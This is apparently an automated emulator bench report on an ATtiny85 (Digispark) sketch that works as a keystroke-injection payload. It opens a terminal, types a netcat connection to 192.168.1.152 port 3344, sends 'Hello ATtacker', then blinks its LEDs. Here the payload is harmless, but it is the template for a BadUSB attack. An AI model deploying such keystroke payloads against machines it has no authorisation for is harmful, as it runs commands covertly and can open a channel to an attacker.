
Bench run of a sketch on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH).

Above: at 0.05 s.
Timing chart, 0 to 3.0 s (numbered marks = the images above):


The sketch:

sketch_aug05a.ino
```cpp
#include "DigiKeyboard.h"
void setup() {
pinMode(0, OUTPUT); //LED on Model B
pinMode(1, OUTPUT); //LED on Model A
}
void loop(){


DigiKeyboard.delay(3000);
DigiKeyboard.sendKeyStroke(KEY_T, MOD_CONTROL_LEFT | MOD_ALT_LEFT);
DigiKeyboard.delay(500);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.print("netcat 192.168.1.152 3344");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.print("Hello ATtacker");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.sendKeyStroke(KEY_D, MOD_CONTROL_LEFT);
DigiKeyboard.sendKeyStroke(KEY_ENTER);

//end of your payload

while(1) {
//Flashes the LED when the program is complete
digitalWrite(0, HIGH);
digitalWrite(1, HIGH);
DigiKeyboard.delay(100);
digitalWrite(0, LOW);
digitalWrite(1, LOW);
DigiKeyboard.delay(100);
} //makes the code run once (if you want it to loop, remove this line)
}
```

Measured:
- by itself, PB0 (LED_on_Model_B), PB1 (LED_on_Model_A): LOW → HIGH at 3.6 s, → LOW 0.10 s later, → HIGH 0.10 s later, → LOW 0.10 s later, … (1264 changes in this stretch)
